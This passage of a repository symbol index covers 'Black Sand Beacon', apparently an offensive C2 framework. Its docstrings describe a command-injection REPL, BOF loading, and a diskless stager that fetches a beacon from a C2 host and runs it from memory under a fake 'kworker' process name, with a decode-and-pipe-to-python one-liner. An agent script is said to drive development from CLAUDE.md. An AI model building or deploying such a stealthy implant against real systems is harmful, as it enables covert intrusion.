- `g_close_ptr` (line 88) `extern void *g_close_ptr;`
- `g_getaddrinfo_ptr` (line 89) `extern void *g_getaddrinfo_ptr;`
- `g_freeaddrinfo_ptr` (line 90) `extern void *g_freeaddrinfo_ptr;`

#### `beacon_heartbeat___health_endpoint.h`
**Path:** `include/beacon_heartbeat___health_endpoint.h`

**Functions:**
- `beacon_heartbeat___health_endpoint_process` (line 4) `bool beacon_heartbeat___health_endpoint_process(void);`

**Macros:**
- `BEACON_HEARTBEAT___HEALTH_ENDPOINT_H` (line 2) `#define BEACON_HEARTBEAT___HEALTH_ENDPOINT_H`

#### `bof_api_versioning.h`
**Path:** `include/bof_api_versioning.h`

**Functions:**
- `bof_api_versioning_process` (line 4) `bool bof_api_versioning_process(void);`

**Macros:**
- `BOF_API_VERSIONING_H` (line 2) `#define BOF_API_VERSIONING_H`

#### `bof_path_traversal_hardening.h`
**Path:** `include/bof_path_traversal_hardening.h`

**Functions:**
- `bof_path_traversal_hardening_process` (line 4) `bool bof_path_traversal_hardening_process(void);`

**Macros:**
- `BOF_PATH_TRAVERSAL_HARDENING_H` (line 2) `#define BOF_PATH_TRAVERSAL_HARDENING_H`

#### `bof_streaming_(large_outputs).h`
**Path:** `include/bof_streaming_(large_outputs).h`

**Functions:**
- `bof_streaming_` (line 4) `bool bof_streaming_(large_outputs)_process(void);`

**Macros:**
- `BOF_STREAMING_` (line 2) `#define BOF_STREAMING_(LARGE_OUTPUTS)`

#### `c2_rest_api.h`
**Path:** `include/c2_rest_api.h`

**Functions:**
- `c2_rest_api_process` (line 4) `bool c2_rest_api_process(void);`

**Macros:**
- `C2_REST_API_H` (line 2) `#define C2_REST_API_H`

#### `cJSON.h`
**Path:** `include/cJSON.h`

**Functions:**
- `cJSON_Parse` (line 152) `* cJSON_Parse (with cJSON_Delete) and cJSON_Print (with stdlib free, cJSON_Hooks.free_fn, or * cJSON_free as appropriate). The exception is cJSON_PrintPreallocated, where the caller has * full respons`
- `cJSON_GetErrorPtr` (line 161) `* a pointer to the error so will match cJSON_GetErrorPtr(). */ CJSON_PUBLIC(cJSON *) cJSON_ParseWithOpts(const char *value, const char **return_parse_end, cJSON_bool require_null_terminated);`
- `that` (line 247) `* that (item->type & cJSON_StringIsConst) is zero before writing to `item->string` */ CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObjectCS(cJSON *object, const char *string, cJSON *item);`
- `sensitive` (line 286) `* sensitive (1) or case insensitive (0) */ CJSON_PUBLIC(cJSON_bool) cJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bool case_sensitive);`

**Macros:**
- `cJSON__h` (line 24) `#define cJSON__h`
- `__WINDOWS__` (line 33) `#define __WINDOWS__`
- `CJSON_CDECL` (line 49) `#define CJSON_CDECL`
- `CJSON_STDCALL` (line 50) `#define CJSON_STDCALL`
- `CJSON_EXPORT_SYMBOLS` (line 54) `#define CJSON_EXPORT_SYMBOLS`
- `CJSON_PUBLIC` (line 58) `#define CJSON_PUBLIC(type)`
- `CJSON_PUBLIC` (line 60) `#define CJSON_PUBLIC(type)`
- `CJSON_PUBLIC` (line 62) `#define CJSON_PUBLIC(type)`
- `CJSON_CDECL` (line 65) `#define CJSON_CDECL`
- `CJSON_STDCALL` (line 66) `#define CJSON_STDCALL`
- `CJSON_PUBLIC` (line 70) `#define CJSON_PUBLIC(type)`
- `CJSON_PUBLIC` (line 72) `#define CJSON_PUBLIC(type)`
- `CJSON_VERSION_MAJOR` (line 77) `#define CJSON_VERSION_MAJOR`
- `CJSON_VERSION_MINOR` (line 78) `#define CJSON_VERSION_MINOR`
- `CJSON_VERSION_PATCH` (line 79) `#define CJSON_VERSION_PATCH`
- `cJSON_Invalid` (line 84) `#define cJSON_Invalid`
- `cJSON_False` (line 85) `#define cJSON_False`
- `cJSON_True` (line 86) `#define cJSON_True`
- `cJSON_NULL` (line 87) `#define cJSON_NULL`
- `cJSON_Number` (line 88) `#define cJSON_Number`
- `cJSON_String` (line 89) `#define cJSON_String`
- `cJSON_Array` (line 90) `#define cJSON_Array`
- `cJSON_Object` (line 91) `#define cJSON_Object`
- `cJSON_Raw` (line 92) `#define cJSON_Raw`
- `cJSON_IsReference` (line 94) `#define cJSON_IsReference`
- `cJSON_StringIsConst` (line 95) `#define cJSON_StringIsConst`
- `CJSON_NESTING_LIMIT` (line 136) `#define CJSON_NESTING_LIMIT`
- `CJSON_CIRCULAR_LIMIT` (line 142) `#define CJSON_CIRCULAR_LIMIT`
- `cJSON_SetIntValue` (line 312) `#define cJSON_SetIntValue(object, number)`
- `cJSON_SetNumberValue` (line 316) `#define cJSON_SetNumberValue(object, number)`
- `cJSON_SetBoolValue` (line 324) `#define cJSON_SetBoolValue(object, boolValue)`
- `cJSON_ArrayForEach` (line 331) `#define cJSON_ArrayForEach(element, array)`

**Structs:**
- `cJSON` (line 98) - *#define cJSON_Invalid (0) #define cJSON_False (1 << 0) #define cJSON_True (1 << 1) #define cJSON_NULL (1 << 2) #define cJSON_Number (1 << 3) #define cJSON_String (1 << 4) #define cJSON_Array (1 << 5) #define cJSON_Object (1 << 6) #define cJSON_Raw (1 << 7) /* raw json #define cJSON_IsReference 256 #define cJSON_StringIsConst 512 /* The cJSON structure:*
- `cJSON_Hooks` (line 123)

**Type_Aliases:**
- `cJSON_bool` (line 130) `typedef int cJSON_bool;`

**Variables:**
- `next` (line 27) `extern "C" { #endif #if !defined(__WINDOWS__) && \ (defined(WIN32) || defined(WIN64) || defined(_MSC_VER) || defined(_WIN32)) #define __WINDOWS__ #endif #ifdef __WINDOWS__ /* When compiling for window` - *ifdef __cplusplus*

#### `certificate_pinning___tofu.h`
**Path:** `include/certificate_pinning___tofu.h`

**Functions:**
- `certificate_pinning___tofu_process` (line 4) `bool certificate_pinning___tofu_process(void);`

**Macros:**
- `CERTIFICATE_PINNING___TOFU_H` (line 2) `#define CERTIFICATE_PINNING___TOFU_H`

#### `command_execution_via_execve.h`
**Path:** `include/command_execution_via_execve.h`

**Functions:**
- `command_execution_via_execve_process` (line 4) `bool command_execution_via_execve_process(void);`

**Macros:**
- `COMMAND_EXECUTION_VIA_EXECVE_H` (line 2) `#define COMMAND_EXECUTION_VIA_EXECVE_H`

#### `config.h`
**Path:** `include/config.h`

**Functions:**
- `bsb_config_load` (line 89) `int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen);` - *Load config from path. Returns 0 on success, -1 on error. * On error, leaves a human-readable message in `err` (if non-NULL).*
- `bsb_config_load_default` (line 92) `int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen);` - *Load config from path. Returns 0 on success, -1 on error. * On error, leaves a human-readable message in `err` (if non-NULL). int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path.*
- `bsb_config_sleep_seconds` (line 95) `int bsb_config_sleep_seconds(const bsb_config_t *cfg);` - *Load config from path. Returns 0 on success, -1 on error. * On error, leaves a human-readable message in `err` (if non-NULL). int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path. int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen); /* Compute a sleep duration with jitter applied. Returns seconds.*

**Macros:**
- `BSB_CONFIG_H` (line 14) `#define BSB_CONFIG_H`
- `BSB_CONFIG_PATH_DEFAULT` (line 19) `#define BSB_CONFIG_PATH_DEFAULT`
- `BSB_CONFIG_PATH_ENV` (line 20) `#define BSB_CONFIG_PATH_ENV`
- `BSB_MAX_URL` (line 21) `#define BSB_MAX_URL`
- `BSB_MAX_URI` (line 22) `#define BSB_MAX_URI`
- `BSB_MAX_CLIENT_ID` (line 23) `#define BSB_MAX_CLIENT_ID`
- `BSB_AES_KEY_HEX_LEN` (line 24) `#define BSB_AES_KEY_HEX_LEN`
- `BSB_AES_KEY_BYTES` (line 25) `#define BSB_AES_KEY_BYTES`
- `BSB_MAX_USER_AGENTS` (line 26) `#define BSB_MAX_USER_AGENTS`
- `BSB_USER_AGENT_LEN` (line 27) `#define BSB_USER_AGENT_LEN`
- `BSB_REPORT_URI_DEFAULT` (line 28) `#define BSB_REPORT_URI_DEFAULT`

**Structs:**
- `bsb_c2_t` (line 30)
- `bsb_crypto_t` (line 38)
- `bsb_timing_t` (line 48)
- `bsb_network_t` (line 56)
- `bsb_bof_t` (line 64)
- `bsb_backoff_config_t` (line 70)
- `bsb_config_t` (line 76)

#### `config_autogen.h`
**Path:** `include/config_autogen.h`

**Functions:**
- `bsb_config_load` (line 69) `int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen);` - *} bsb_server_t; typedef struct { bsb_c2_t c2; bsb_crypto_t crypto; bsb_timing_t timing; bsb_network_t network; bsb_bof_t bof; bsb_backoff_t backoff; bsb_server_t server; char path[512]; } bsb_config_t; /* Load config from path. Returns 0 on success, -1 on error.*
- `bsb_config_load_default` (line 72) `int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen);` - *bsb_c2_t c2; bsb_crypto_t crypto; bsb_timing_t timing; bsb_network_t network; bsb_bof_t bof; bsb_backoff_t backoff; bsb_server_t server; char path[512]; } bsb_config_t; /* Load config from path. Returns 0 on success, -1 on error. int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path.*
- `bsb_config_sleep_seconds` (line 75) `int bsb_config_sleep_seconds(const bsb_config_t *cfg);` - *bsb_network_t network; bsb_bof_t bof; bsb_backoff_t backoff; bsb_server_t server; char path[512]; } bsb_config_t; /* Load config from path. Returns 0 on success, -1 on error. int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path. int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen); /* Compute a sleep duration with jitter applied. Returns seconds.*

**Macros:**
- `BSB_CONFIG_AUTOGEN_H` (line 6) `#define BSB_CONFIG_AUTOGEN_H`

**Structs:**
- `bsb_c2_t` (line 11)
- `bsb_crypto_t` (line 21)
- `bsb_timing_t` (line 28)
- `bsb_network_t` (line 35)
- `bsb_bof_t` (line 42)
- `bsb_backoff_t` (line 47)
- `bsb_server_t` (line 52)
- `bsb_config_t` (line 57)

#### `containerized_build_+_sbom.h`
**Path:** `include/containerized_build_+_sbom.h`

**Macros:**
- `CONTAINERIZED_BUILD_` (line 2) `#define CONTAINERIZED_BUILD_`

#### `hkdf_key_derivation.h`
**Path:** `include/hkdf_key_derivation.h`

**Functions:**
- `hkdf_key_derivation_process` (line 4) `bool hkdf_key_derivation_process(void);`

**Macros:**
- `HKDF_KEY_DERIVATION_H` (line 2) `#define HKDF_KEY_DERIVATION_H`

#### `iv_generation_with_entropy_verification.h`
**Path:** `include/iv_generation_with_entropy_verification.h`

**Functions:**
- `iv_generation_with_entropy_verification_process` (line 4) `bool iv_generation_with_entropy_verification_process(void);`

**Macros:**
- `IV_GENERATION_WITH_ENTROPY_VERIFICATION_H` (line 2) `#define IV_GENERATION_WITH_ENTROPY_VERIFICATION_H`

#### `mutation_testing_integration.h`
**Path:** `include/mutation_testing_integration.h`

**Functions:**
- `mutation_testing_integration_process` (line 4) `bool mutation_testing_integration_process(void);`

**Macros:**
- `MUTATION_TESTING_INTEGRATION_H` (line 2) `#define MUTATION_TESTING_INTEGRATION_H`

#### `pre-commit_+_ci_hardening.h`
**Path:** `include/pre-commit_+_ci_hardening.h`

**Macros:**
- `PRE` (line 2) `#define PRE`

#### `replay_protection.h`
**Path:** `include/replay_protection.h`

**Functions:**
- `replay_protection_process` (line 4) `bool replay_protection_process(void);`

**Macros:**
- `REPLAY_PROTECTION_H` (line 2) `#define REPLAY_PROTECTION_H`

#### `socks5___http_proxy_support.h`
**Path:** `include/socks5___http_proxy_support.h`

**Functions:**
- `socks5___http_proxy_support_process` (line 4) `bool socks5___http_proxy_support_process(void);`

**Macros:**
- `SOCKS5___HTTP_PROXY_SUPPORT_H` (line 2) `#define SOCKS5___HTTP_PROXY_SUPPORT_H`

#### `structured_jsonl_logging.h`
**Path:** `include/structured_jsonl_logging.h`

**Functions:**
- `structured_jsonl_logging_process` (line 4) `bool structured_jsonl_logging_process(void);`

**Macros:**
- `STRUCTURED_JSONL_LOGGING_H` (line 2) `#define STRUCTURED_JSONL_LOGGING_H`

#### `tls_client_certificate_authentication.h`
**Path:** `include/tls_client_certificate_authentication.h`

**Functions:**
- `tls_client_certificate_authentication_process` (line 4) `bool tls_client_certificate_authentication_process(void);`

**Macros:**
- `TLS_CLIENT_CERTIFICATE_AUTHENTICATION_H` (line 2) `#define TLS_CLIENT_CERTIFICATE_AUTHENTICATION_H`

#### `unified_config_schema.h`
**Path:** `include/unified_config_schema.h`

**Functions:**
- `unified_config_schema_process` (line 4) `bool unified_config_schema_process(void);`

**Macros:**
- `UNIFIED_CONFIG_SCHEMA_H` (line 2) `#define UNIFIED_CONFIG_SCHEMA_H`

### PY (54 files)

#### `app.py`
**Path:** `app.py`
**File Doc:** *app.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: xx/xx/xxxx Licencia: GPL v3  Descripción:*

*No symbols extracted*

#### `__init__.py`
**Path:** `c2/__init__.py`

*No symbols extracted*

#### `server.py`
**Path:** `c2/server.py`
**File Doc:** *Black Sand Beacon C2 Server  Gopher-style command and control server for Black Sand Beacon agents. Handles command queuing, result collection, and BOF distribution.  Security features: - Thread pool to prevent resource exhaustion - HMAC-based message authentication (optional) - Configurable TLS verification - Centralized JSON configuration  Usage: python3 c2/server.py BSB_CONFIG=/path/to/config.json python3 c2/server.py*

**Classes:**
- `C2State` (line 552) `class C2State` - *Mutable state shared between request handlers.*

**Functions:**
- `_random_free_port` (line 73) `def _random_free_port()` - *Pick a free TCP port in the ephemeral range (best-effort bind probe).*
- `load_runtime_config` (line 86) `def load_runtime_config()` - *Load configuration from JSON file or use defaults.

Anything not provided (config.json or environment) is generated at
random *per server run*: port, master key, staging token and client
id. Generated values are recorded in cfg["generated"] so main() can
print them, and they always win over the on-disk file when the
config is served through the staging endpoint.*
- `compute_hmac` (line 210) `def compute_hmac(key, data)` - *Compute HMAC-SHA256 for message authentication.*
- `verify_hmac` (line 215) `def verify_hmac(key, data, signature)` - *Verify HMAC-SHA256 signature.*
- `encrypt_data` (line 221) `def encrypt_data(data, key, hmac_key, use_hmac)` - *Encrypt data with AES-256-CFB and optional HMAC (legacy format without replay protection).*
- `encrypt_data_replay` (line 244) `def encrypt_data_replay(data, key, counter, timestamp, hmac_key, use_hmac)` - *Encrypt data with AES-256-CFB and replay protection (counter + timestamp).*
- `decrypt_data` (line 278) `def decrypt_data(b64_data, key, hmac_key, use_hmac)` - *Decrypt AES-256-CFB data with optional HMAC verification.*
- `decrypt_data_replay` (line 301) `def decrypt_data_replay(b64_data, key, hmac_key, use_hmac, replay_window_seconds, last_seen_counter, client_id)` - *Decrypt AES-256-CFB data with replay protection (counter + timestamp).

Returns (decrypted_data, counter, timestamp) on success, None on failure.*
- `hkdf_sha256` (line 398) `def hkdf_sha256(ikm, salt, info, length)` - *RFC 5869 HKDF extract+expand. Pure stdlib so the server and the
stager payload implement byte-identical derivation.*
- `stage_keys` (line 410) `def stage_keys(token)` - *Derive the three staging XOR layers from the token.*
- `xor_layer` (line 416) `def xor_layer(data, key)` - *Apply one XOR layer with a repeating key.*
- `stage_encode` (line 422) `def stage_encode(payload, token)` - *Pack payload as base64 using token-derived XOR keys.*
- `stage_decode` (line 430) `def stage_decode(body, token)` - *Inverse of stage_encode (used by tests and the stager parity check).*
- `stage_token_ok` (line 441) `def stage_token_ok(state, token)` - *Constant-time token check; fail closed when no token configured.*
- `build_stage_config` (line 449) `def build_stage_config(state)` - *Build the beacon config JSON served by /stage/config.

Runtime values (random-generated key/port/client id) always win over
the on-disk file, so a fileless beacon agrees with *this* server
run. The server-only section is stripped and derived key bytes are
dropped (not JSON-serializable).*
- `handle_stage` (line 481) `def handle_stage(state, kind, token)` - *Serve the beacon ELF or the config.json through the staging contract.*
- `build_stage_oneliner` (line 512) `def build_stage_oneliner(cfg)` - *Build the copy-paste stager one-liner for the current config.

The stager payload (c2/stage_payload.py) reads URL and token from
environment variables, so its base64 blob is constant and the
one-liner is a plain pipe: decode payload, run it with env vars set.*
- `copy_to_clipboard` (line 529) `def copy_to_clipboard(text)` - *Copy text to the X11/Wayland clipboard; False if no tool exists.*
- `handle_get_command` (line 568) `def handle_get_command(state, selector)` - *Dispatch beacon's polling GET request.*
- `handle_report` (line 592) `def handle_report(state, b64_payload)` - *Process beacon result report.*
- `handle_bof` (line 682) `def handle_bof(state, name)` - *Serve BOF file from upload directory with path traversal protection.*
- `handle_request` (line 720) `def handle_request(state, selector)` - *Route request to appropriate handler.

Accepts both the HTTP/1.1 request form (the beacon uses libcurl)
and the bare Gopher-style selector. Payloads carried in an HTTP
path are percent-decoded, since base64 uses '+', '/' and '='
which are not all legal in a request line.*
- `_is_http_line` (line 783) `def _is_http_line(line)` - *True if `line` is an HTTP request line ("GET /path HTTP/1.1").*
- `_is_http_request` (line 789) `def _is_http_request(raw)` - *True if the first line looks like an HTTP request line.

Checked on the *complete* request only. A single recv() on a
long request line can return a fragment that has not reached
"HTTP/1.1" yet, so the caller must read to the header terminator
before asking.*
- `_read_request` (line 800) `def _read_request(conn)` - *Read one full request.

HTTP is terminated by CRLFCRLF. A legacy Gopher selector is a
single CRLF-terminated line with no header terminator, so a
first line that is already complete and is not an HTTP request
line ends the read too.*
- `_http_response` (line 848) `def _http_response(body, status)`
- `serve_client` (line 860) `def serve_client(state, conn, addr)` - *Handle individual client connection.*
- `serve` (line 890) `def serve(cfg, state)` - *Bind and accept loop. Blocks until interrupted.*
- `command_injector` (line 932) `def command_injector(state)` - *Interactive command injection REPL.*
- `main` (line 955) `def main()` - *Start C2 server.*

**Methods:**
- `__init__` (line 555) `def __init__(self, cfg)`

#### `stage_payload.py`
**Path:** `c2/stage_payload.py`
**File Doc:** *Black Sand Beacon diskless stager.  Fetches the token-packed beacon ELF and config.json from the C2 staging endpoints, decodes them in RAM, and executes the beacon from an anonymous memfd. Nothing is ever written to disk.  Packing is three XOR layers whose keys are derived from the staging token via HKDF-SHA256 (salt "blacksandbeacon-stage-v1") — byte-identical to the server's derivation in c2/server.py. No key material on the wire.  Environment: BSB_STAGE_URL          base C2 URL (e.g. https://c2.example:7070) BSB_STAGE_TOKEN        staging token (same as server.stage_token) BSB_STAGE_ARGV0        argv[0] for the beacon (default "kworker/u8:2") BSB_STAGE_INSECURE_TLS set to 1 to skip TLS verification (lab only)  Usage: python3 stage_payload.py echo <b64> | base64 -d | BSB_STAGE_URL=... BSB_STAGE_TOKEN=... python3 -*

**Functions:**
- `hkdf_sha256` (line 37) `def hkdf_sha256(ikm, salt, info, length)` - *RFC 5869 HKDF extract+expand (stdlib only, mirrors c2/server.py).*
- `_fetch_and_decode` (line 48) `def _fetch_and_decode(url, token, path, tls_ctx)`
- `main` (line 67) `def main()`

#### `generate_parsers.py`
**Path:** `config/generate_parsers.py`
**File Doc:** *Config Parser Generator for Black Sand Beacon  Reads config/schema.json (JSON Schema Draft 7) and generates: 1. include/config_autogen.h - C struct definitions 2. include/config_autogen.c - C parser implementation 3. include/config_py_autogen.py - Python config loader  This ensures C and Python parsers are always in sync.*

**Functions:**
- `load_schema` (line 25) `def load_schema()`
- `c_type_from_schema` (line 30) `def c_type_from_schema(prop, required)` - *Map JSON Schema type to C type.*
- `c_field_name` (line 48) `def c_field_name(json_name)` - *Convert JSON field name to C field name (snake_case).*
- `generate_c_structs` (line 53) `def generate_c_structs(schema)` - *Generate C struct definitions from schema.*
- `generate_c_parser` (line 136) `def generate_c_parser(schema)` - *Generate C parser implementation from schema.*
- `generate_python_loader` (line 465) `def generate_python_loader(schema)` - *Generate Python config loader from schema.*
- `main` (line 615) `def main()`

#### `contract_agent.py`
**Path:** `contract_agent.py`
**File Doc:** *Contract Driven Agent - SDD/TDD/BDD workflow for Black Sand Beacon v2. Reads CLAUDE.md contracts and executes the full workflow.*

**Functions:**
- `run_cmd` (line 23) `def run_cmd(cmd, cwd)` - *Run a command and return (exit_code, stdout, stderr).*
- `ensure_dir` (line 29) `def ensure_dir(path)`
- `git` (line 33) `def git()`
- `make_target` (line 37) `def make_target(target)`
- `extract_contracts` (line 41) `def extract_contracts(claude_content)` - *Extract contracts from CLAUDE.md (## Contract: Name headings).*
- `write_spec` (line 62) `def write_spec(contract_name, body)` - *Write spec/<contract_name>.md with SDD template.*
- `write_python_test` (line 96) `def write_python_test(contract_name, body)` - *Write a failing pytest test for the contract.*
- `write_c_test` (line 141) `def write_c_test(contract_name, body)` - *Write a failing CMocka test for C components.*
- `write_implementation_stub` (line 179) `def write_implementation_stub(contract_name)` - *Write minimal C implementation stub.*
- `run_python_tests` (line 213) `def run_python_tests()` - *Run pytest and return True if all pass.*
- `run_c_tests` (line 223) `def run_c_tests()` - *Run C tests via make test (assumes Makefile has C test targets).*
- `run_mutation_testing` (line 233) `def run_mutation_testing()` - *Run mutation testing with mutmut (Python) and custom (C).*
- `run_asan` (line 256) `def run_asan()` - *Run AddressSanitizer build and tests.*
- `run_qa` (line 266) `def run_qa()` - *Run static analysis (cppcheck).*
- `git_commit_and_branch` (line 275) `def git_commit_and_branch(contract_name)` - *Create a new branch, add changes, commit.*
- `process_contract` (line 289) `def process_contract(contract_name, body)` - *Execute the full SDD+TDD+BDD workflow for a single contract.*
- `main` (line 316) `def main()`

#### `gopher_c2.py`
**Path:** `gopher_c2.py`

**Functions:**
- `encrypt_data` (line 30) `def encrypt_data(data)`
- `decrypt_data` (line 40) `def decrypt_data(b64_data)`
- `handle_client` (line 49) `def handle_client(conn, addr)`
- `main` (line 143) `def main()`
- `command_injector` (line 152) `def command_injector()`

#### `config_py.py`
**Path:** `include/config_py.py`
**File Doc:** *config_py.py - Python loader for BSB JSON config files.  Mirrors the C side in include/config.c so the C2 server and the beacon agree on the same schema. Generated/checked-in here so the C2 has no Python-side runtime dependency on a separate generator. Keep this in sync with include/config.c.*

**Functions:**
- `_derive_keys` (line 65) `def _derive_keys(master_key_bytes)` - *Derive encryption and HMAC keys from master key using HKDF-SHA256.*
- `_deep_merge` (line 84) `def _deep_merge(base, overlay)` - *Recursively merge overlay into base; overlay wins.*
- `load_config` (line 94) `def load_config(path)` - *Load and validate a BSB config file.

Raises ValueError on any schema violation. Returns a dict
matching DEFAULTS' structure plus derived keys.*

#### `config_py_autogen.py`
**Path:** `include/config_py_autogen.py`
**File Doc:** *Auto-generated Python config loader from config/schema.json DO NOT EDIT MANUALLY - run config/generate_parsers.py to regenerate*

**Functions:**
- `_derive_keys` (line 59) `def _derive_keys(master_key_bytes)` - *Derive encryption and HMAC keys from master key using HKDF-SHA256.*
- `_deep_merge` (line 80) `def _deep_merge(base, overlay)` - *Recursively merge overlay into base; overlay wins.*
- `load_config` (line 89) `def load_config(path)` - *Load and validate a BSB config file.

Raises ValueError on any schema violation. Returns a dict
matching DEFAULTS' structure plus derived keys.*

#### `test_async_i_o_for_beacon.py`
**Path:** `mutants/tests/test_async_i_o_for_beacon.py`
**File Doc:** *Auto-generated test for contract: Async I/O for Beacon BDD-style tests derived from specification.*

**Classes:**
- `TestAsyncIOforBeacon` (line 18) `class TestAsyncIOforBeacon` - *BDD test suite for Async I/O for Beacon.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_beacon_build.py`
**Path:** `mutants/tests/test_beacon_build.py`
**File Doc:** *Sanity build test: compile the v1 beacon against include/config.c and verify the binary links and embeds the symbols we expect.  This test is skipped (not failed) if the OpenSSL or libcurl dev headers are missing, so it works on a clean CI runner and on a dev box without those installed. CI installs them explicitly.*

**Functions:**
- `have_headers` (line 29) `def have_headers()` - *Return True if openssl and curl headers are present.*
- `compile_beacon` (line 43) `def compile_beacon()`
- `inspect_binary` (line 65) `def inspect_binary()`
- `ensure_beacon` (line 70) `def ensure_beacon()` - *Rebuild the beacon if it is missing or older than its sources.

test_install_deploy.py runs `make clean`, which deletes build/;
a bare `if not BEACON.exists()` check would then inspect a stale
binary from an earlier run.*
- `test_beacon_compiles_and_links` (line 84) `def test_beacon_compiles_and_links()`
- `test_beacon_exposes_bof_api` (line 93) `def test_beacon_exposes_bof_api()`
- `test_beacon_exposes_elf_loader` (line 113) `def test_beacon_exposes_elf_loader()`
- `main` (line 123) `def main()`

#### `test_beacon_common.c_extraction.py`
**Path:** `mutants/tests/test_beacon_common.c_extraction.py`
**File Doc:** *Auto-generated test for contract: beacon_common.c Extraction BDD-style tests derived from specification.*

*No symbols extracted*

#### `test_beacon_heartbeat___health_endpoint.py`
**Path:** `mutants/tests/test_beacon_heartbeat___health_endpoint.py`
**File Doc:** *Auto-generated test for contract: Beacon Heartbeat / Health Endpoint BDD-style tests derived from specification.*

**Classes:**
- `TestBeaconHeartbeatHealthEndpoint` (line 18) `class TestBeaconHeartbeatHealthEndpoint` - *BDD test suite for Beacon Heartbeat / Health Endpoint.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_bof_api_versioning.py`
**Path:** `mutants/tests/test_bof_api_versioning.py`
**File Doc:** *Auto-generated test for contract: BOF API Versioning BDD-style tests derived from specification.*

**Classes:**
- `TestBOFAPIVersioning` (line 18) `class TestBOFAPIVersioning` - *BDD test suite for BOF API Versioning.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_bof_compile.py`
**Path:** `mutants/tests/test_bof_compile.py`
**File Doc:** *Verify every BOF compiles with the BOF build flags.  A BOF is a position-independent ELF object that the beacon loads at runtime. It must: - compile with -nostdlib (no glibc) - be PIC - export `go` with the right signature - leave BeaconPrintf/BeaconOutput as undefined external refs*

**Functions:**
- `compile_bof` (line 21) `def compile_bof(name)`
- `inspect_symbols` (line 35) `def inspect_symbols(obj_path)`
- `test_compile_all` (line 53) `def test_compile_all()`
- `test_export_go` (line 60) `def test_export_go()`
- `test_unresolved_beacon_api` (line 68) `def test_unresolved_beacon_api()`
- `test_no_libc_leak` (line 80) `def test_no_libc_leak()` - *Make sure we did not pull in glibc symbols by accident.*
- `main` (line 91) `def main()`

#### `test_bof_path_traversal_hardening.py`
**Path:** `mutants/tests/test_bof_path_traversal_hardening.py`
**File Doc:** *Auto-generated test for contract: BOF Path Traversal Hardening BDD-style tests derived from specification.*

**Classes:**
- `TestBOFPathTraversalHardening` (line 18) `class TestBOFPathTraversalHardening` - *BDD test suite for BOF Path Traversal Hardening.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_bof_streaming_(large_outputs).py`
**Path:** `mutants/tests/test_bof_streaming_(large_outputs).py`
**File Doc:** *Auto-generated test for contract: BOF Streaming (Large Outputs) BDD-style tests derived from specification.*

**Classes:**
- `TestBOFStreaming` (line 18) `class TestBOFStreaming(LargeOutputs)` - *BDD test suite for BOF Streaming (Large Outputs).*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_c2_http_e2e.py`
**Path:** `mutants/tests/test_c2_http_e2e.py`
**File Doc:** *End-to-end test: a real HTTP/1.1 client talks to a real TCP socket bound by server.serve(), and the full crypto roundtrip works.  This catches the wire-format mismatch that bit us before: the beacon speaks HTTP/1.1 (libcurl), the server used to expect a raw Gopher selector. They could not talk.  We use a free port, run the server in a daemon thread, and drive it with raw sockets — no libcurl, no real network loopback surprises.*

**Functions:**
- `_free_port` (line 43) `def _free_port()`
- `_recv_response` (line 51) `def _recv_response(sock, timeout)`
- `test_http_get_poll_returns_encrypted_command` (line 65) `def test_http_get_poll_returns_encrypted_command()` - *Beacon-style HTTP/1.1 GET /<uri>/<id> must return a base64
body the server can encrypt and we can decrypt with the shared
AES key. Before the fix, the server returned iUNKNOWN_SELECTOR.*
- `test_http_post_report_writes_log` (line 115) `def test_http_post_report_writes_log()` - *Beacon-style HTTP/1.1 POST /report/<b64> must reach the
report handler, decrypt, parse, and write a CSV row. Before
the fix, the POST went to the same URL as the GET (poll),
so the server logged an UNKNOWN_SELECTOR error and the
CSV never had a row for this client.*
- `test_gopher_legacy_still_works` (line 183) `def test_gopher_legacy_still_works()` - *The old Gopher-style selector (single line, CRLF) must
still dispatch correctly — server.py keeps that path so
anything that depended on it is not broken by the new
HTTP/1.1 entry point.*
- `test_http_post_with_url_encoded_b64_payload` (line 233) `def test_http_post_with_url_encoded_b64_payload()` - *The beacon percent-encodes the base64 payload before
splicing it onto the URL path. Standard base64 uses '+',
'/', and '=' which would otherwise produce an invalid
HTTP request line (extra '/' would split the path, '+'
is space-encoded, '=' is a query marker). This test
replicates that: encode the payload exactly as the
beacon does, send it, and assert the report is decrypted
and logged.*
- `test_fragmented_post_is_dispatched_as_http` (line 326) `def test_fragmented_post_is_dispatched_as_http()` - *When the client sends a long POST URL that crosses a TCP
segment boundary, the first recv() inside server.serve() may
not include "HTTP/1.1" yet. Before the _read_http_request
fix, this made the dispatcher fall through to the legacy
Gopher branch and return iUNKNOWN_SELECTOR. We reproduce that
fragmentation here by sending the request in two pieces with
a small delay between them. The expected behavior is that the
server still parses the full request, decrypts, and writes
the log line.*
- `main` (line 399) `def main()`
- `encode` (line 274) `def encode(s)`

#### `test_c2_rest_api.py`
**Path:** `mutants/tests/test_c2_rest_api.py`
**File Doc:** *Auto-generated test for contract: C2 REST API BDD-style tests derived from specification.*

**Classes:**
